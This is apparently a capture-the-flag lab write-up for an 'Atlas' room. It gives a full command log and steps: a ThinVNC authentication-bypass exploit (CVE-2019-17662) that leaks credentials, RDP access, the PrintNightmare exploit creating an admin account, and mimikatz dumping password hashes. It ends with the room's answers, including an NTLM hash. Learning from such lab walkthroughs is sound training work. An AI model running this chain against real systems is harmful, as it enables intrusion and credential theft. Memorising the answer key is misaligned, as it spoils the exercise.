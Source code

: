 # Atlas - Easy

```shell
nmap -T4 -A -Pn -v 10.10.93.198

curl 10.10.93.198:8080 -v

#get exploit from GitHub
chmod +x CVE-2019-17662.py

./CVE-2019-17662.py

./CVE-2019-17662.py -h

./CVE-2019-17662.py 10.10.14.130 8080

xfreerdp /v:10.10.93.198 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
#/drive:share,tmp lets us share our /tmp directory with target

#download CVE-2021-1675.ps1 in /tmp in attacker machine

#in victim rdp, open powershell
. \\tsclient\share\CVE-2021-1675.ps1
#this imports the .ps1

#run exploit
Invoke-Nightmare
#creates new user

Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
#use new user creds to spawn cmd.exe

whoami /groups
#part of BUILTIN\Administrators

#download mimikatz_trunk.zip in /tmp
#in attacker machine
unzip mimikatz_trunk.zip

#in victim rdp session
\\tsclient\share\x64\mimikatz.exe
#executes mimikatz

privilege::debug
#'20' OK

token::elevate

#dump hashes
lsadump::sam
```

* Open ports & services:

  * 3389 - ms-wbt-server
  * 8080 - http-proxy

* We can try accessing the webpage on port 8080 - this gives us a prompt for basic authentication.

* We do not know the creds, so we can attempt to send a request using ```cURL``` to check for clues.

* Using ```cURL```, we can see that the webpage is for 'ThinVNC' - we can check if any exploits exist for this.

* We get a ThinVNC authentication bypass exploit, for CVE-2019-17662.

* We get the Python script for the exploit from Github; running the script with the required parameters fetches creds from ThinVnc.ini

* We have the creds Atlas:H0ldUpTheHe@vens; we can log into the website now.

* With ThinVNC, we can access the victim machine's Desktop by submitting its IP as input.

* However, it is not easy to use, so we can try to reuse the same creds for ```xfreerdp```, and it works.

* We are given a clue about the PrintSpooler exploit covered in CVE-2021-1675 - we can download the .ps1 exploit script and move it to /tmp in attacker machine.

* In victim machine, we can open PowerShell and run the exploit script.

* This creates a new user adm1n:P@ssw0rd with local admin privileges.

* We can spawn a new cmd.exe as the new user.

* Using ```mimikatz```, we can dump hashes now.

```markdown
1. With the Nmap default port range, you should find that two ports are open. What port numbers are these? - 3389,8080

2. What service does Nmap think is running on the higher of the two ports? - http-proxy

3. What is the Administrator account's NTLM password hash? - c16444961f67af7eea7e420b65c8c3eb
```

